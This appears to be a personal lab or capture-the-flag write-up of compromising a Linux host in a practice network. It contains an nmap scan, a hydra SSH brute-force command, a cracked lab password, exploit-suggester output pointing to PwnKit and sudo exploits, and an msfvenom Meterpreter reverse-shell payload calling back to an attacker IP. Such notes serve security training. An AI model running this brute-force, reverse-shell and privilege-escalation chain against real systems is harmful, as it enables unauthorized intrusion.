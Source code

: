 ## NMAP
```
 nmap -sCV -T4 -Pn 172.16.2.101
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-11 17:04 PST
Nmap scan report for 172.16.2.101
Host is up (0.17s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 20:d0:8e:88:ee:db:b4:cf:35:b7:db:cb:74:a0:50:0b (RSA)
|   256 db:33:b7:7b:64:70:46:12:29:02:36:b3:c5:cf:96:3d (ECDSA)
|_  256 66:bb:0d:63:a8:1e:4c:24:fe:2c:7e:9e:3a:03:00:e6 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.21 seconds
```

Using hydra i was able to determine the password for SSD

```
hydra -l user.txt -P plist.txt ssh://172.16.2.101 -vV -f -t 4
```

![[Pasted image 20231212083522.png]]

The performance was faster by manually putting in the user names from the list. 

julian : manchesterunited

![[Pasted image 20231212083700.png]]

![[Pasted image 20231212083800.png]]
![[Pasted image 20231212085217.png]]
Julian has readfile permissions we can probably read the flag or admin ssh keys

None of this worked. 

## Linux Priv Checker

```
julian@DANTE-ADMIN-NIX05:~/p3ta$ ./linux-exploit-suggester.sh

Available information:

Kernel version: 5.4.0
Architecture: x86_64
Distribution: ubuntu
Distribution version: 20.04
Additional checks (CONFIG_*, sysctl entries, custom Bash commands): performed
Package listing: from current OS

Searching among:

81 kernel space exploits
49 user space exploits

Possible Exploits:

[+] [CVE-2022-2586] nft_object UAF

   Details: https://www.openwall.com/lists/oss-security/2022/08/29/5
   Exposure: probable
   Tags: [ ubuntu=(20.04) ]{kernel:5.12.13}
   Download URL: https://www.openwall.com/lists/oss-security/2022/08/29/5/1
   Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)

[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: mint=19,[ ubuntu=18|20 ], debian=10
   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: centos=6|7|8,[ ubuntu=14|16|17|18|19|20 ], debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main

[+] [CVE-2021-22555] Netfilter heap out-of-bounds write

   Details: https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html
   Exposure: probable
   Tags: [ ubuntu=20.04 ]{kernel:5.8.0-*}
   Download URL: https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2021-22555/exploit.c
   Comments: ip_tables kernel module must be loaded

[+] [CVE-2022-32250] nft_object UAF (NFT_MSG_NEWSET)

   Details: https://research.nccgroup.com/2022/09/01/settlers-of-netlink-exploiting-a-limited-uaf-in-nf_tables-cve-2022-32250/
https://blog.theori.io/research/CVE-2022-32250-linux-kernel-lpe-2022/
   Exposure: less probable
   Tags: ubuntu=(22.04){kernel:5.15.0-27-generic}
   Download URL: https://raw.githubusercontent.com/theori-io/CVE-2022-32250-exploit/main/exp.c
   Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)

```

## Generate Payload for Meterpreter Shell
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.16.6 LPORT=4444 -f elf -o payload.bin
```

Background the session and run pwnkit

![[Pasted image 20231212103048.png]]

![[Pasted image 20231212103058.png]]

## Further Enumeration 

![[Pasted image 20231212103842.png]]